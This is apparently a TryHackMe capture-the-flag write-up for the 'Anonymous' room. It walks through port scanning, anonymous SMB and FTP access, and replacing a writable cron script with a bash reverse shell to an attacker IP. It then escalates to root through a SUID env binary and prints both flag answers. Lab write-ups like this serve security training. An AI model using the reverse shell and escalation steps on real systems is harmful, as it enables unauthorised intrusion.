

# [Anonymous](https://tryhackme.com/room/anonymous)
### [TryHackMe](https://tryhackme.com/)

Not the hacking group

### Stats 
Difficulty :   **Medium**

Questions  :   **6**

Victim IP  :   **10.10.134.90**

### Objectives 
* Find user flag
* Find root flag

### Enumerate the machine. How many ports are open?
As for each CTF, we will start the recognition with a scan of the ports of the machine. Here I am using the "-sC" and "-sV" options to use the default scripts and get informations about the services that are running. 
```bash
$ sudo nmap -sC -sV 10.10.134.90
# Nmap 7.91 scan initiated Tue Aug 10 14:53:00 2021 as: nmap -sC -sV 10.10.134.90
Nmap scan report for 10.10.134.90
Host is up (0.41s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.58.124
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -6s, deviation: 0s, median: -7s
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2021-08-10T12:55:08+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-10T12:55:08
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Aug 10 14:55:30 2021 -- 1 IP address (1 host up) scanned in 150.24 seconds
```
We see that we have 4 open ports on the machine. 
#### `Answer : 4`

### What service is running on port 21?
Even if in most cases it is the "ftp" service that runs behind port 21 we have to check. 
```bash
$ sudo nmap -sV -p21 10.10.134.90
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-10 14:55 CEST
Nmap scan report for 10.10.134.90
Host is up (0.23s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.03 seconds
```
We have our answer, it's the ftp service behind port 21 
#### `Answer : ftp`

### What service is running on ports 139 and 445?
Again we can run a little port scan to check what is behind those ports.
```bash
$ sudo nmap -sV -p139,445 10.10.134.90                                              
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-10 14:58 CEST
Nmap scan report for 10.10.134.90
Host is up (0.43s latency).

PORT    STATE SERVICE     VERSION
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.63 seconds
```
Generally the Samba service which is the implementation of the smb protocol (The SMB protocol is a protocol allowing the sharing of resources on local networks) under Unix uses ports 139 and 445 and here it is indeed the case. 
#### `Answer : smb`

### There's a share on the user's computer.  What's it called?
After our scans we know that Samba is running on the victim's pc. We can try to see if the pc is sharing things. For that I will try to connect in anonymous, ie without passwords to the pc thanks to "smbclient". 
```bash
$ smbclient -L ////10.10.134.90     
Enter WORKGROUP\LaGelee's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        pics            Disk      My SMB Share Directory for Pics
        IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```
We find a disk called "peaks". The other two "print$" and "IPC$" are default things.  
#### `Answer : pics`

### user.txt
Now I connect to the "pics" disk to see what is hiding and I will get what it contains.
```bash
$ smbclient \\\\10.10.134.90\\pics                                                               1 ⨯
Enter WORKGROUP\LaGelee's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun May 17 13:11:34 2020
  ..                                  D        0  Thu May 14 03:59:10 2020
  corgo2.jpg                          N    42663  Tue May 12 02:43:42 2020
  puppos.jpeg                         N   265188  Tue May 12 02:43:42 2020

                20508240 blocks of size 1024. 13306808 blocks available
smb: \> get corgo2.jpg 
getting file \corgo2.jpg of size 42663 as corgo2.jpg (9,0 KiloBytes/sec) (average 9,0 KiloBytes/sec)
smb: \> get puppos.jpeg
getting file \puppos.jpeg of size 265188 as puppos.jpeg (31,9 KiloBytes/sec) (average 23,6 KiloBytes/sec)
```
We end up with two images.


At first I thought it was steganography and I tried everything but without success ... However remember, we had 4 ports open including 1 FTP. I then connect in "anonymous" to the FTP, that is to say without passwords to see what is hiding. 
```bash
$ ftp 10.10.134.90
Connected to 10.10.134.90.
220 NamelessOne's FTP Server!
Name (10.10.134.90:LaGelee): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts
226 Directory send OK.
ftp> cd scripts
250 Directory successfully changed.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000         2451 Aug 10 13:19 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
mge226 Directory send OK.
ftp> mget *
mget clean.sh? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for clean.sh (314 bytes).
226 Transfer complete.
314 bytes received in 0.00 secs (1.3800 MB/s)
mget removed_files.log? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for removed_files.log (2451 bytes).
226 Transfer complete.
2451 bytes received in 0.00 secs (10.7223 MB/s)
mget to_do.txt? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for to_do.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.00 secs (1.5440 MB/s)
```
We encountered a "scripts" directory which is available to us for reading and writing thanks to the "drwxrwxrwx" notes and various files in this directory. 

A "to_do.txt" file.
```bash
$ cat to_do.txt 
I really need to disable the anonymous login...it's really not safe
```
A "removed_files.log" file.
```
$ cat removed_files.log
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
[...]
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
```
And a "clean.sh" script.
```bash
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```
If we analyze everything, we find the line 'echo "Running cleanup script: nothing to delete" >> /var/ftp/scripts/removed_files.log' which when executed will add in a file "removed_files.log" the line "Running cleanup script: nothing to delete". Since the "removed_files.log" file we found does indeed contain the line "Running cleanup script: nothing to delete" a lot of times I thought that our "clean.sh" script is being executed quite frequently. If you remember correctly, in the ftp server you can write in the "scripts" folder but you can also modify the "clean.sh" file.
```bash
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
```
We can therefore modify the file and install a reverse shell. I am using a bash reverse shell with my ip "10.6.58.124" and port 4444.
```bash
$ cat clean.sh 
#!/bin/bash
bash -i >& /dev/tcp/10.6.58.124/4444 0>&1
```
I can then put the file on the ftp server and run a listener on my pc.
```bash
$ ftp 10.10.11.38
Connected to 10.10.11.38.
220 NamelessOne's FTP Server!
Name (10.10.11.38:LaGelee): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd scripts
250 Directory successfully changed.
ftp> put clean.sh
local: clean.sh remote: clean.sh
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
54 bytes sent in 0.00 secs (811.2981 kB/s)
```
```bash
$ nc -lvnp 4444                     
listening on [any] 4444 ...
connect to [10.6.58.124] from (UNKNOWN) [10.10.11.38] 34728
bash: cannot set terminal process group (1245): Inappropriate ioctl for device
bash: no job control in this shell
namelessone@anonymous:~$ 
```
Magic, we have a shell on the server. Now let's find the flag. 
```bash
namelessone@anonymous:~$ ls
pics
user.txt
namelessone@anonymous:~$ cat user.txt
90d6f992585815ff991e68748c414740
```
#### `Answer : 90d6f992585815ff991e68748c414740`

### root.txt
To get the root flag we need to elevate our privileges. For that I uploaded the script [linpeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) to the machine and I executed it. While digging into the result of the script I came across this.
```bash
════════════════════════════════════╣ Interesting Files ╠════════════════════════════════════
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
strings Not Found

[...]

-rwsr-xr-x 1 root root 10K Mar 28  2017 /usr/lib/eject/dmcrypt-get-device (Unknown SUID binary)
-rwsr-xr-x 1 root root 427K Mar  4  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 59K Mar 22  2019 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_
8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 35K Jan 18  2018 /usr/bin/env
-rwsr-xr-x 1 root root 75K Mar 22  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 37K Mar 22  2019 /usr/bin/newuidmap
```
We are not supposed to find the command "/usr/bin/env" here. With the SUID it has the power to change our uid to "root" so let's try to exploit that.

The GTFOBins site tells us how to use the command to gain root privileges.
```bash
namelessone@anonymous:~$ /usr/bin/env /bin/sh -p
id
uid=1000(namelessone) gid=1000(namelessone) euid=0(root) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)

```
It's good, we're root. Let's go get our flag. 
```bash
cat /root/root.txt
4d930091c31a622a7ed10f27999af363
```
#### `Answer : 4d930091c31a622a7ed10f27999af363`

Write-up made wit :heart: by @LaGelee